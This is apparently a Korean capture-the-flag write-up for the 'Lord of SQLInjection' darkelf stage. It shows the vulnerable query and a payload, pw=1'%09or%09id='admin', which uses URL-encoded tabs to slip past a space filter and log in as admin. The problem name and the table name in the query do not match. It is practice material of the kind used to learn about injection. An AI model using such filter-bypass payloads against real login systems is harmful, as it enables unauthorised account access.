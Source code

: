 Lord of SQLInjection 
darkelf 문제 [6단계]
쿼리문 : select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'
3번 문제와 유사한 문제이다.
pw에 임의의 값을 넣고 or id='admin' 을 쿼리문에
입력하면 된다. 3번 문제와 다르게 공백도 필터링 되기 때문에 tab 의 url인코딩 값을 이용해서 공백을 대신한다
tab : %09
pw=1'%09or%09id='admin'